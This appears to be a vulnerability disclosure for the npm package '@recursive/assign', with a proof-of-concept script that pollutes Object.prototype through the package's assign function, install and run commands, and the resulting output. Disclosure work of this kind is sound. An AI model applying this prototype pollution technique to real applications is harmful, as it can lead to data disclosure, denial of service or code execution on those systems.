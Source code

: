 # Description

`@recursive/assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const assign = require('@recursive/assign')

console.log(`Before: ${{}.polluted}`)
assign(constructor.prototype, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @recursive/assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
